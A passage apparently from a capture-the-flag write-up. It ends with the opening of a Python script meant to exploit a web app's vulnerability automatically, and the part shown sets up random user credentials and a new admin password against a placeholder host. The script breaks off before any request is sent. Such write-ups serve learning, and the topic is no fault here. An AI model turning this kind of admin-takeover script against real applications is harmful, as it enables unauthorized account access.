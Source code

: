 ![flag](screenshots/flag.png "flag")



## Automated exploitation

To conclude, here's a python script that exploit the same vulnerability automatically.

```python
import requests
import random
import string
from bs4 import BeautifulSoup

IP="HOSTNAME"
PORT=5000
BASE_URL="http://{0}:{1}/".format(IP, PORT)

# Generate random username to be sure that nobody used this username before
user_username=''.join(random.choice(string.ascii_letters) for i in range(24))

#Generate user and new admin password
user_password=''.join(random.choice(string.ascii_letters) for i in range(24))
admin_password=''.join(random.choice(string.ascii_letters) for i in range(24))

user_credentials = {'username':user_username, 'password':user_password}
```
